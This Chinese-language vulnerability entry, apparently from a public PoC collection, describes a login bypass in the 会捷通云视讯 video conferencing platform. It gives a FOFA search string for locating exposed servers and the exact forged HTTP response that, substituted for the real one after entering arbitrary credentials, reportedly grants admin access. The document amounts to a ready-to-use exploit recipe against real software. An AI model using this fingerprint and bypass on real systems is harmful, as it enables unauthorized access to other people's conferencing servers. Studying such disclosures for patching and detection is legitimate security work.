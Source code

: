 # 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

```
会捷通云视讯
```

## FOFA

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101858604.png)



输入任意账号密码抓包



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101858666.png)

修改返回包为如下后放包则成功绕过登录



```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101858916.png)